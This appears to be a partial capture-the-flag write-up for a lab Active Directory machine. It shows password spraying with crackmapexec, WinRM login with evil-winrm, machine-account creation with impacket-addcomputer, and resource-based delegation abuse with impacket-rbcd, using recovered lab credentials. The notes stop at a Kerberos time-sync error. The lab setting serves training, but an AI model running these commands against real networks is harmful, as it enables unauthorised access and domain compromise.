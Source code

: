  I have to Analysed the dmp file, after deeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeeep analysis, i got a unknown user password PWN3D#l0rr@Armessa199 and **v3ryS0l!dP@sswd#35**

Lets Spray this to all users, first will spray **PWN3D#l0rr@Armessa199**
```
 crackmapexec smb 10.10.11.5 -u users.txt -p 'PWN3D#l0rr@Armessa199' --continue-on-success --shares
```
![[Pasted image 20240623131454.png]]
Cool, it worked for lorra199

Lets try it on winrm
```
crackmapexec winrm 10.10.11.5 -u lorra199 -p 'PWN3D#l0rr@Armessa199'
```
![[Pasted image 20240623131526.png]]
Finalllly....! **lorra199:PWN3D#l0rr@Armessa199**

Will try this password **v3ryS0l!dP@sswd#35**
```
 crackmapexec smb 10.10.11.5 -u users.txt -p 'v3ryS0l!dP@sswd#35' --continue-on-success
```
![[Pasted image 20240623145250.png]]

Will use evil-winrm for lorra199
```
 evil-winrm -i 10.10.11.5 -u lorra199 -p 'PWN3D#l0rr@Armessa199'
```
![[Pasted image 20240623131621.png]]



We have added computer to the domain using lorra199
```
impacket-addcomputer -computer-name 'pwned$' -computer-pass 'pwned@199' -dc-host freelancer.htb -domain-netbios freelancer.htb freelancer.htb/lorra199:'PWN3D#l0rr@Armessa199'
```
![[Pasted image 20240623133621.png]]

Will add using wwalker
```
impacket-addcomputer -computer-name 'pwned1$' -computer-pass 'pwned1@199' -dc-host freelancer.htb -domain-netbios freelancer.htb freelancer.htb/wwalker:'v3ryS0l!dP@sswd#35'
```
![[Pasted image 20240623133740.png]]
Done, So We have two computers now

Now Will delegate the system
```
impacket-rbcd -action write -delegate-from pwned$ -delegate-to dc$ -dc-ip 10.10.11.5 "freelancer.htb/lorra199:PWN3D#l0rr@Armessa199"
```
![[Pasted image 20240623141442.png]]

But I couldn't make progress any further
Can get TGT because of time zone issue
